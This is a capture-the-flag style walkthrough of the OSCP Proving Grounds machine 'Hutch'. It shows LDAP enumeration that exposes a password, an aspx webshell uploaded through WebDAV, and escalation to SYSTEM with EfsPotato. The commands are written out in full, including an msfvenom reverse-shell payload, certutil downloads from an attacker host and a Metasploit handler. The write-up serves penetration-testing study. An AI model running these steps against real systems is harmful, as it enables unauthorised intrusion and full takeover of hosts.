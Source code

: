 ```yaml
---
title: Hutch 
date: 2022-10-18 12:00:00
categories: [OSCP,PG]
tags: [activedirectory]
---
```


# Hutch

## Summary

We are going to attack **Hutch** in the OSCP Proving Ground. The machine is rated as **Hard** and can be tackled by different ways. I've chosen the most reliable form that can be often spotted in the wild.

## Enumeration

### Rustscan

`sudo rustscan -t 500 -b 500 --ulimit 65000 -a 192.168.162.122 -- -sV -sC -oA ./{{ip}}`

```bash
[~] The config file is expected to be at "/root/.rustscan.toml"
[~] Automatically increasing ulimit value to 65000.
Open 192.168.71.122:53
Open 192.168.71.122:80
Open 192.168.71.122:88
Open 192.168.71.122:135
Open 192.168.71.122:139
Open 192.168.71.122:389
Open 192.168.71.122:445
Open 192.168.71.122:464
Open 192.168.71.122:593
Open 192.168.71.122:636
...
```

Thanks to rust we know that **webdav** is enabled on port 80

```bash
PORT      STATE SERVICE       REASON          VERSION
53/tcp    open  domain        syn-ack ttl 127 Simple DNS Plus
80/tcp    open  http          syn-ack ttl 127 Microsoft IIS httpd 10.0
| http-methods: 
|   Supported Methods: OPTIONS TRACE GET HEAD POST COPY PROPFIND DELETE MOVE PROPPATCH MKCOL LOCK UNLOCK PUT
|_  Potentially risky methods: TRACE COPY PROPFIND DELETE MOVE PROPPATCH MKCOL LOCK UNLOCK PUT
|_http-server-header: Microsoft-IIS/10.0
|_http-title: IIS Windows Server
| http-webdav-scan: 
|   Public Options: OPTIONS, TRACE, GET, HEAD, POST, PROPFIND, PROPPATCH, MKCOL, PUT, DELETE, COPY, MOVE, LOCK, UNLOCK
|   Allowed Methods: OPTIONS, TRACE, GET, HEAD, POST, COPY, PROPFIND, DELETE, MOVE, PROPPATCH, MKCOL, LOCK, UNLOCK
|   Server Date: Wed, 29 Jun 2022 03:55:18 GMT
|   Server Type: Microsoft-IIS/10.0
|_  WebDAV type: Unknown
88/tcp    open  kerberos-sec  syn-ack ttl 127 Microsoft Windows Kerberos (server time: 2022-06-29 03:54:30Z)
135/tcp   open  msrpc         syn-ack ttl 127 Microsoft Windows RPC
139/tcp   open  netbios-ssn   syn-ack ttl 127 Microsoft Windows netbios-ssn
389/tcp   open  ldap          syn-ack ttl 127 Microsoft Windows Active Directory LDAP (Domain: hutch.offsec0., Site: Default-First-Site-Name)
445/tcp   open  microsoft-ds? syn-ack ttl 127
464/tcp   open  kpasswd5?     syn-ack ttl 127
593/tcp   open  ncacn_http    syn-ack ttl 127 Microsoft Windows RPC over HTTP 1.0
636/tcp   open  tcpwrapped    syn-ack ttl 127
...
```

### LDAP

We're going to check for null credentials and are sucessfull. We identified that the user **hutch.offsec\fmcsorley** uses the password **CrabSharkJellyfish192**

`ldapsearch -x -H ldap://192.168.162.122 -D '' -w '' -b "DC=hutch,DC=offsec"`

```bash
# hutch.offsec
dn: DC=hutch,DC=offsec

# Administrator, Users, hutch.offsec
dn: CN=Administrator,CN=Users,DC=hutch,DC=offsec

# Freddy McSorley, Users, hutch.offsec
dn: CN=Freddy McSorley,CN=Users,DC=hutch,DC=offsec
objectClass: top
objectClass: person
objectClass: organizationalPerson
objectClass: user
cn: Freddy McSorley
description: Password set to CrabSharkJellyfish192 at user's request. Please change on next login.
distinguishedName: CN=Freddy McSorley,CN=Users,DC=hutch,DC=offsec
name: Freddy McSorley
sAMAccountName: fmcsorley
userPrincipalName: fmcsorley@hutch.offsec
objectCategory: CN=Person,CN=Schema,CN=Configuration,DC=hutch,DC=offsec
...
```

#### Verify Credentials

Using **crackmapexec** we're able to verify that the credentials are valid

`cme smb 192.168.162.122 -u 'fmcsorley' -p 'CrabSharkJellyfish192' --shares`

```bash
SMB         192.168.162.122 445    HUTCHDC          [*] Windows 10.0 Build 17763 x64 (name:HUTCHDC) (domain:hutch.offsec) (signing:True) (SMBv1:False)
SMB         192.168.162.122 445    HUTCHDC          [+] hutch.offsec\fmcsorley:CrabSharkJellyfish192 
SMB         192.168.162.122 445    HUTCHDC          [+] Enumerated shares
SMB         192.168.162.122 445    HUTCHDC          Share           Permissions     Remark
SMB         192.168.162.122 445    HUTCHDC          -----           -----------     ------
SMB         192.168.162.122 445    HUTCHDC          ADMIN$                          Remote Admin
SMB         192.168.162.122 445    HUTCHDC          C$                              Default share
SMB         192.168.162.122 445    HUTCHDC          IPC$            READ            Remote IPC
SMB         192.168.162.122 445    HUTCHDC          NETLOGON        READ            Logon server share 
SMB         192.168.162.122 445    HUTCHDC          SYSVOL          READ            Logon server share
```

## Foothold

### Shell

We will use our knowlege about webdav which is enabled for port 80 and the credentials we gathered to upload an aspx webshell

Create a listener to catch any potential incoming shells

`rlwrap -cAr nc -lvnp 4444`

Upload a command shell using the user:pass combination we discovered

`curl --basic --user "fcmsorley:CrabSharkJellyfish192" -T "cmdasp.aspx" "http://192.168.162.122/"`

Open a browser and navigate to http://192.168.162.122/cmdasp.aspx and use an encoded payload to get a shell
> Just use: https://www.revshells.com/ to generate a payload :)

## Privilege Escalation

### Local Enumeration

Let's check for privs we have
`whoami /priv`
```powershell
PRIVILEGES INFORMATION
----------------------

Privilege Name                Description                               State   
============================= ========================================= ========
SeAssignPrimaryTokenPrivilege Replace a process level token             Disabled
SeIncreaseQuotaPrivilege      Adjust memory quotas for a process        Disabled
SeMachineAccountPrivilege     Add workstations to domain                Disabled
SeAuditPrivilege              Generate security audits                  Disabled
SeChangeNotifyPrivilege       Bypass traverse checking                  Enabled 
SeImpersonatePrivilege        Impersonate a client after authentication Enabled 
SeCreateGlobalPrivilege       Create global objects                     Enabled 
SeIncreaseWorkingSetPrivilege Increase a process working set            Disabled
```
> SeImpersonatePrivilege is an easy win, it can be abused in mutliple ways and will most of the times be an instant priv esc vector

### Escalation

Thanks to **SeImpersonatePrivilege** we're able to use one of the Potato Family exploits to get to nt authority/system level

We'll chose one that's not as famous as some others **EfsPotato**
https://github.com/zcgonvh/EfsPotato

We could have used an encoded powershell payload again to get our shell but I decided to throw some meterpreter in the mix

Create meterpreter binary that connects back to a listener on port 4443

`msfvenom -p windows/meterpreter/reverse_tcp LHOST=192.168.49.162 LPORT=4443 -f exe -o meterpreter.exe`

Upload EfsPotato , meterpreter.exe and build EfsPotato on the target. I used a python http.server for transfering files onto the target
```powershell
cd c:\users\public
# Download our files
certutil.exe -urlcache -split -f http://192.168.49.162/EfsPotato.cs
certutil.exe -urlcache -split -f http://192.168.49.162/meterpreter.exe
# Build EfsPotato.exe
csc.exe EfsPotato.cs -nowarn:1691,618
```

Setup Metasploit to catch our reverse shell
```bash
msf6 > use exploit/multi/handler
[*] Using configured payload generic/shell_reverse_tcp
msf6 exploit(multi/handler) > set payload windows/meterpreter/reverse_tcp
payload => windows/meterpreter/reverse_tcp
msf6 exploit(multi/handler) > set LHOST tun0
LHOST => tun0
msf6 exploit(multi/handler) > set LPORT 4443
LPORT => 4443
msf6 exploit(multi/handler) > options

Module options (exploit/multi/handler):

   Name  Current Setting  Required  Description
   ----  ---------------  --------  -----------


Payload options (windows/meterpreter/reverse_tcp):

   Name      Current Setting  Required  Description
   ----      ---------------  --------  -----------
   EXITFUNC  process          yes       Exit technique (Accepted: '', seh, thread, process, none)
   LHOST     tun0             yes       The listen address (an interface may be specified)
   LPORT     4443             yes       The listen port


Exploit target:

   Id  Name
   --  ----
   0   Wildcard Target


msf6 exploit(multi/handler) > run

[*] Started reverse TCP handler on 192.168.49.162:4443 
```

Launch our binary with escalated privileges using **EfsPotato** on our target

`c:\users\public\EfsPotato.exe c:\users\public\meterpreter.exe`

Let's check if we were successfull
```bash
[*] Sending stage (175174 bytes) to 192.168.162.122
[*] Meterpreter session 1 opened (192.168.49.162:4443 -> 192.168.162.122:51950 ) at 2022-08-30 12:50:46 +0200
meterpreter > shell
Process 3700 created.
Channel 1 created.
Microsoft Windows [Version 10.0.17763.1637]
(c) 2018 Microsoft Corporation. All rights reserved.

C:\users\public>whoami
whoami
nt authority\system
```
